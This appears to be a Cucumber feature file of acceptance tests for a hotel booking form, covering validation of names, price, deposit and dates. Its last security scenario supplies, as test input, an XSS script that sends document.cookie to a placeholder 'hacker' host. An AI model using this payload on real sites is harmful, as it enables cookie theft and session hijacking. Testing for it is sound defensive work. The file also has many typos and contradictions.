 All the acceptance tests are written based on the below assumptions :

1. Error messages are displayed when invalid details are provided (e.g : firstname, surename, price and deposit, checkin date and checkout date)
2. Error messages are displayed when checkout date is lesser than the checkin date or this scenario should not be allowed.
3. Success message is displayed when a booking is saved successfully.
4. Success message is displayed when a booking is deleted successfully.
5. Bookings canot be saved for past dates and only saved for future dates.
6. Firstname and Surename fields only allow Alphabets(A-Z or a-z). Numeric or special characters are allowed.
7. Deposit field only allows numeric characters(0-9). Alphabets are nort allowed.
8. Checkin and checkout dates only allows vaild date format.

@ManualTests
Feature : Hotel Booking System

  As a customer
  I want to use the book hotel reservation system
  So that I can book my hotel reservations

  #Test Scenarios coverage for both positive and negative cases.
  Positive Cases
  User successfully saves booking reference
  User successfully deletes a saved booking reference

  Negative Cases
  User should be displayed with error message if invalid first name are provided and the booking should not be saved
  User should be displayed with error message if invalid Sure name are provided and the booking should not be saved
  User should be displayed with error message if invalid price are provided and the booking should not be saved
  User should not be able to save booking on past dates
  User should not be able to save checkout date lesser than checkin date

  Security Cases
  User should not be able to save the booking (Security testing)


  Scenario Outline: User successfully saves booking reservation.
  Given I entered the valid details : <first_name>, <sure_name>, <price>, <deposit>, <checkin_date>, <checkout_date>
  When I clciked Save button
  Then the booking should be saved
  And success message is displayed
  And saved booking should be displayed : <first_name>, <sure_name>, <price>, <deposit>, <checkin_date>, <checkout_date>
  Examples:
  | first_name | sure_name | price |deposit | checkin_date  | checkout_date   |
  | Jack       | Jones     | 500   | true   |  2018-06-20   |   2018-06-20    |
  | Jimmy      | Bill      | 460   | false  |  2018-06-27   |   2018-07-05    |


  Scenario Outline: User successfully deletes a saved booking reservation.
  Given I entered the valid details : <first_name>, <sure_name>, <price>, <deposit>, <checkin_date>, <checkout_date>
  And I saved the booking
  When I clciked delete button
  Then the saved booking should be deleted
  And success message is displayed
  Examples:
    | first_name | sure_name | price |deposit | checkin_date | checkout_date  |
    | Jack       | Jones     | 500   | true   |  20          |  25            |
    | Jimmy      | Bill      | 460   | false  |  25          |  28            |


  Scenario Outline: User should be displayed with error message if invalid first name are provided and the booking should not be saved
  Given I entered the invalid details : <first_name>, <sure_name>, <price>, <deposit>
  When I clciked Save button
  Then the booking should not be saved
  And should be display <error_message>
  Examples:
  | first_name      | sure_name      | price |deposit | error_message                    |
  | 12345867!"£$%   | Jones          | 500   | true   | Please enter a vaild First Name  |
  | Ji543^&         | Jones          | 460   | false  | Please enter a vaild First Name  |
  | null            | Jones          | 460   | false  | Please enter a vaild First Name  |
  |                 | Jones          | 460   | false  | Please enter a vaild First Name  |


  Scenario Outline: User should be displayed with error message if invalid Surname are provided and the booking should not be saved
  Given I entered the invalid details : <first_name>, <sure_name>, <price>, <deposit>
  When I clciked Save button
  Then the booking should not be saved
  And should be display <error_message>
  Examples:
  | first_name    | sure_name        | price |deposit | error_message                    |
  | Jack          | 12345867!"£$%    | 500   | true   | Please enter a vaild Sure Name   |
  | Jack          | 1234567          | 460   | false  | Please enter a vaild Sure Name   |
  | Jack          | 1234^&*          | 460   | false  | Please enter a vaild Sure Name   |
  | Jack          | null             | 460   | false  | Please enter a vaild Sure Name   |


  Scenario Outline: User should be displayed with error message if invalid price are provided and the booking should not be saved
  Given I entered the invalid details : <first_name>, <sure_name>, <price>, <deposit>
  When I clciked Save button
  Then the booking should not be saved
  And should be display <error_message>
  Examples:
  | first_name | sure_name  | price        |deposit | error_message               |
  | Jack       | Jones      | 50dfgh"££0   | true   | Please enter a vaild price  |


  Scenario: User should not be able to save booking on past dates
  Given I entered the invalid details : <first_name>, <sure_name>, <price>, <deposit>, <checkin_dtae>, <checkout_dtae>
  When I clciked Save button
  Then the booking should not be saved
  And checkin date <checkin_error_message> should be display
  And checkin date <error_message> should be display
  Examples:
  | first_name | sure_name | price |deposit | checkin_date  | checkout_date   | error_message                       |
  | Jack       | Jones     | 500   | true   |  2018-06-20   |   2018-06-20    | Please enter a vaild checkin date   |
  | Jimmy      | Bill      | 460   | false  |  2018-06-27   |   2018-07-05    | Please enter a vaild checkin date   |


  Scenario: User should not be able to save checkout date lesser than checkin date
    Given I entered the invalid details : <first_name>, <sure_name>, <price>, <deposit>, <checkin_dtae>, <checkout_dtae>
    When I clciked Save button
    Then the booking should not be saved
    And checkin date <checkin_error_message> should be display
    And checkin date <error_message> should be display
  Examples:
  | first_name | sure_name | price |deposit | checkin_date  | checkout_date   | error_message                                           |
  | Jack       | Jones     | 500   | true   |  2018-06-20   |   2018-06-12    | Checkout date should be greater than the checkin date   |



#Below are the findings are of security testing :

  Scenario Outline: User should not be able to save the booking (Security testing)
    Given I entered the in-valid details : <first_name>, <sure_name>, <price>, <deposit>, <checkin_date>, <checkout_date>
    | first_name                                                                             | sure_name                                                                              | price |deposit | checkin_date  | checkout_date   |
    | <SCRIPT>var+img=new+Image();img.src="http://hacker/"%20+%20document.cookie;</SCRIPT>   | <SCRIPT>var+img=new+Image();img.src="http://hacker/"%20+%20document.cookie;</SCRIPT>   | 500   | true   |  2018-06-20   |   2018-06-20    |
    When I clciked Save button
    Then the booking should not be saved 